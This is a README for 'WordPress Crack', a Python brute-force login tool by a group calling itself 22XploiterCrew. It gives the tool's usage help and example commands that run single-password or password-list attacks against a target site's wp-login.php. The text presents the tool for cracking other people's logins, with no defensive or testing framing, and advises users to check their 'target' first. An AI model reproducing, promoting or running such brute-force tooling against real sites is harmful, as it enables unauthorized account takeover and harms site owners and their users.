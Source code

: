 <h1 align="center">WordPress Crack<br/>Super Fast Login</h1>

> this is the first version, we will fix any bugs that appear. so expect participation :)

```
WordPress Brute Force Super Fast Login By 22XploiterCrew
Website : https://22xploitercrew.my.id
E-Mail  : dev@22xploitercrew.my.id

usage: python3 wp-crack.py url username [-p|-P] [-v VERBOSE]

positional arguments:
  url               url the target
  username          username target

optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and
                    exit
  -v, --verbose     verbose mode/show username and
                    password combination for each attempt
  -p , --password   use one word password
  -P , --passlist   use a few words password

Please check your target first so that the login process
runs smoothly
```

### Required
- Python 3.9.0

### How To Use
- Single password
```bash
python3 wp-crack.py https://site.com/wp-login.php username -p password
```

- List password
```bash
python3 wp-crack.py https://site.com/wp-login.php username -P password.txt
```
